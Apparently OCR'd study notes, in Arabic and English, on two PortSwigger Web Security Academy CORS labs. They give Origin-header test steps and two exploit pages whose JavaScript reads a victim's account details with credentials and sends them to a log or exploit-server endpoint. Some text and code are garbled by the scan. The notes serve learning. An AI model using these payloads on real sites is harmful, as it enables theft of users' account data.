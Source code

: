 هتعرف منين انو مصاب بيها 
هتلاقي في قثسحخىث 
واحده من ال headers 
السابقون

## **CORS vulnerability with basic origin reflection**

تعمل test
Origin: zeyadalm.com

لو عمل allow for Origin

go 

<html>

<body>
<script>
var request = new XMLHTTpRequest();

var url = “[https://0a0000d903b8884b82e5891c00260051.web-security-academy.net/account](https://0a0000d903b8884b82e5891c00260051.web-security-academy.net/my-account)details”

request.open( ”GET” ,url, true );

request.withCredential = true;

request.send( null )
request.onreadystatechange = function () {
             if ( request.readyState == XMLHTTpRequest.DONE ){

                fetch(”/log?key” + request.responseText)

}}
</script>
</body>
</html>

## **CORS vulnerability with trusted null origin**

تعمل test
Origin: zeyadalm.com

لو عمل interna-server-error
Origin: null

لو عمل allow for Origin

<html>

<body>

<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','[YOUR-LAB-ID.web-security-academy.net/accountDetails](http://your-lab-id.web-security-academy.net/accountDetails)',true);
req.withCredentials = true;
req.send();
function reqListener() {
location='[YOUR-EXPLOIT-SERVER-ID.exploit-server.net/log?key='+encodeURIComponent(this.responseText)](http://your-exploit-server-id.exploit-server.net/log?key=%27+encodeURIComponent(this.responseText));
};
</script>"></iframe>

